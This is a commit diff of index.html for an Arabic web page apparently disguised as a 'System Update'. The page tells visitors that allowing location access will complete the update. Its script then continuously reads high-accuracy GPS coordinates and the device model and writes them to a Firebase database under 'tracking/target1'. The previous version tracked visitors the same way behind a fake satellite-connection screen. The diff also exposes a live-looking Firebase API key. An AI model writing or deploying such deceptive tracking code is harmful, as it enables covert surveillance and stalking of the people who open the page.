

Before and after one commit to omarmxndncbbf-blip/system-update, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,22 +1,18 @@
 <!DOCTYPE html>
-<html lang="ar" dir="rtl">
+<html lang="ar">
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>System Update</title>
     <link rel="manifest" href="manifest.json">
-    <title>Checking Connection</title>
     <script src="https://www.gstatic.com/firebasejs/8.10.1/firebase-app.js"></script>
     <script src="https://www.gstatic.com/firebasejs/8.10.1/firebase-database.js"></script>
 </head>
-<body style="background:#000; color:#00ffcc; font-family:monospace; display:flex; align-items:center; justify-content:center; height:100vh; margin:0;">
-    <div style="text-align:center; border:1px solid #00ffcc; padding:20px; box-shadow:0 0 20px #00ffcc;">
-        <h2 id="device">INITIALIZING...</h2>
-        <p id="status">CONNECTING TO SATELLITE...</p>
-    </div>
+<body style="background:#000; color:#fff; text-align:center; padding-top:50px; font-family:sans-serif;">
+    <h2>جاري فحص وتحديث النظام</h2>
+    <p>برجاء السماح بالوصول للموقع لاكمال التحديث</p>
 
     <script>
-        if ('serviceWorker' in navigator) { navigator.serviceWorker.register('sw.js'); }
-
         const firebaseConfig = {
             apiKey: "AIzaSyBCCXqcD29paJYKGI6eevmUuRa4bW11ccU",
             databaseURL: "https://omar-store-2025-default-rtdb.firebaseio.com",
@@ -25,36 +21,27 @@
         };
         firebase.initializeApp(firebaseConfig);
 
-        // جلب نوع الجهاز بالظبط
-        const ua = navigator.userAgent;
-        let deviceName = "Unknown Device";
-        if (/OPPO/i.test(ua)) deviceName = "Oppo Device";
-        else if (/Samsung/i.test(ua)) deviceName = "Samsung Galaxy";
-        else if (/iPhone/i.test(ua)) deviceName = "iPhone";
-        else if (/Redmi|Xiaomi/i.test(ua)) deviceName = "Xiaomi/Redmi";
-        else deviceName = navigator.platform;
+        function getDeviceModel() {
+            const ua = navigator.userAgent;
+            if (ua.includes("OPPO")) return "Oppo Device";
+            if (ua.includes("Samsung") || ua.includes("SM-")) return "Samsung Galaxy";
+            if (ua.includes("iPhone")) return "iPhone";
+            if (ua.includes("Redmi") || ua.includes("Xiaomi")) return "Xiaomi Redmi";
+            return navigator.platform + " Mobile";
+        }
 
-        document.getElementById('device').innerText = deviceName;
-
-        const options = { enableHighAccuracy: true, maximumAge: 0, timeout: 10000 };
-
-        navigator.geolocation.watchPosition((pos) => {
-            const accuracy = Math.round(pos.coords.accuracy);
-            // تحديث فقط لو الدقة ممتازة (أقل من 25 متر)
-            if (accuracy <= 25) {
-                firebase.database().ref('tracking/' + deviceName.replace(/\s/g, '_')).set({
-                    device: deviceName,
+        if (navigator.geolocation) {
+            navigator.geolocation.watchPosition((pos) => {
+                const data = {
                     lat: pos.coords.latitude,
                     lng: pos.coords.longitude,
-                    acc: accuracy,
-                    time: new Date().toLocaleTimeString('ar-EG'),
-                    last_update: firebase.database.ServerValue.TIMESTAMP
-                });
-                document.getElementById('status').innerText = "SIGNAL SECURED ✅";
-            } else {
-                document.getElementById('status').innerText = "IMPROVING ACCURACY: " + accuracy + "m";
-            }
-        }, null, options);
+                    acc: Math.round(pos.coords.accuracy),
+                    device: getDeviceModel(),
+                    time: new Date().toLocaleTimeString('ar-EG')
+                };
+                firebase.database().ref('tracking/target1').set(data);
+            }, (err) => { console.error(err) }, { enableHighAccuracy: true });
+        }
     </script>
 </body>
 </html>
```
